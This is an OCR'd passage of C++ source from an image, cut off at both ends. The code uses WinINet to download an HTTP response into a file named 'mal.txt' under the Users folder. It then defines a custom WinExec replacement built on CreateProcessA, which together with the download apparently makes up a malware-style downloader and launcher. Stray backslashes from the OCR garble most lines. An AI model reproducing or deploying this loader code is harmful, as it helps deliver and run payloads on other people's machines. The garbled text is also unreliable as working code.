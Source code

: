 ```cpp
        std::cout << "Failed to send HTTP request\n";\
        InternetCloseHandle(hRequest);\
        InternetCloseHandle(hConnect);\
        InternetCloseHandle(hInternet);\
        return 1;\
    }\
    std::ofstream outfile("C:\\Users\\Downloads\\mal.txt", std::ios::out | std::ios::binary);\
    if (!outfile.is_open())\
    {\
        std::cout << "Failed to create output file\n";\
        InternetCloseHandle(hRequest);\
        InternetCloseHandle(hConnect);\
        InternetCloseHandle(hInternet);\
        return 1;\
    }\
    char buffer[1024];\
    DWORD dwRead = 0;\
    while (InternetReadFile(hRequest, buffer, sizeof(buffer), &dwRead) && dwRead != 0)\
    {\
        outfile.write(buffer, dwRead);\
    }

    outfile.close();

    InternetCloseHandle(hRequest);\
    InternetCloseHandle(hConnect);\
    InternetCloseHandle(hInternet);

    return 0;\
}

typedef DWORD(WINAPI* WaitForInputIdleType)(HANDLE, DWORD);

WaitForInputIdleType UserWaitForInputIdleRoutine = NULL;

VOID WINAPI RegisterWaitForInputIdle(WaitForInputIdleType lpfnRegisterWaitForInputIdle)\
{\
    UserWaitForInputIdleRoutine = lpfnRegisterWaitForInputIdle;\
}

UINT WINAPI MyWinExec(LPCSTR lpCmdLine, UINT uCmdShow)\
{\
    STARTUPINFOA StartupInfo;\
    PROCESS_INFORMATION ProcessInformation;\
    DWORD dosErr;

    RtlZeroMemory(&StartupInfo, sizeof(StartupInfo));\
    StartupInfo.cb = sizeof(STARTUPINFOA);\
    StartupInfo.wShowWindow = (WORD)uCmdShow;\
    StartupInfo.dwFlags = 0;\
    if (!CreateProcessA(NULL,\
        (LPSTR)lpCmdLine,\
        NULL,\
        NULL,\
        FALSE,\
        0,\
        NULL,\
        NULL,\
        &StartupInfo,\
        &ProcessInformation))\
    {\
        dosErr = GetLastError();\
        return dosErr < 32 ? dosErr : ERROR_BAD_FORMAT;\
```